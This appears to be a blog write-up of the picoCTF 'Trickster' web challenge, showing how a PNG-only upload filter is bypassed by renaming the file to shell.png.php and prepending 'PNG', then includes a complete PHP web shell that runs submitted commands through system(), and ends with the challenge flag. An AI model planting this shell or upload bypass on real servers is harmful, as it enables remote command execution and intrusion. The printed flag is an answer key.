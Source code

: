 ```yaml
---
layout: post
title:  "Trickster"
description: Exploiting a site that only accepts PNG files
date:   2024-09-14
tags: ["Medium", "Web Exploitation", "Web Shell"]
category: [CTF,picoCTF]
---
```


## Challenge Info
I found a web app that can help process images: PNG images only!

author: JUAN BONDOU

## Reconnaissance
The first thing I usually try for web challenges is to map out the site, so that's naturally what I tried here. I opened up Burpsuite, and attempted to map the site using Burpsuite's passive [spidering](https://en.wikipedia.org/wiki/Web_crawler).

![nocrawl](/assets/img/trickster/nocrawl.png)

Unfortunately, this is a dead end. The actual file of importance is [robots.txt](https://en.wikipedia.org/wiki/Robots.txt) file, which tells web crawlers which parts of the site they're allowed and disallowed to index.

Navigating to the `robots.txt` file reveals the following:

![robots](/assets/img/trickster/robots.png)

So now we know the uploads are stored in `/uploads`, and that there's a `/instructions.txt` file. Let's take a quick look at the `instructions.txt`:

![instructions](/assets/img/trickster/instructions.png)

## Attempts
I googled "php webshell", and found [this](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985). The file doesn't require much editing thankfully. Obviously, we won't be allowed to upload this as a `.php`.

Firstly, changing the file name to `shell.png` obviously isn't going to work, since then the code just won't be able to run.

Second, changing the file name to `shell.php.png` also will not work, since it still won't be able to run.

Third, while it seems like a good idea to change the signature bytes of `shell.php` to that of a png file, this will also return code errors.

## Injecting the Shell

Surprisingly, the solution is pretty simple. If we change the file name from `shell.php` to `shell.png.php`, and then include the text "PNG" at the top of our file, we'll be allowed an upload.
```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
## Navigating the Shell
If we navigate to `/uploads/<ourshell>.php`, we're greeted with this:
![shell](/assets/img/trickster/shell.png)

Upon running some simple linux commands (`ls`, `pwd`, etc.), we'll see that our shell is successful. The only thing we cannot do is navigate into other directories. Since we can't navigate into other directories, we're going to have to find a way to search the system for `.txt` files (the flag is typically in a `.txt`.

## Solution
To locate all `.txt` files, I ran `find / -type f -name '*.txt' 2>/dev/null
`.
- `find` is the command.
- `/` tells it to search everything under the root directory (so our entire system).
- `-type f` specifies to search for **files**.
- `-name '*.txt'` specifies that it should be ALL (*) `.txt` files.
- `2>/dev/null` suppresses error messages.

The return will be a long list of files, but scrolling *all* the way down reveals this:
![txt files](/assets/img/trickster/txts.png)

To read the `GQ4DOOBVMMYGK.txt` file, just run `cat /var/www/html/GQ4DOOBVMMYGK.txt`, and we have our flag.


flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}`
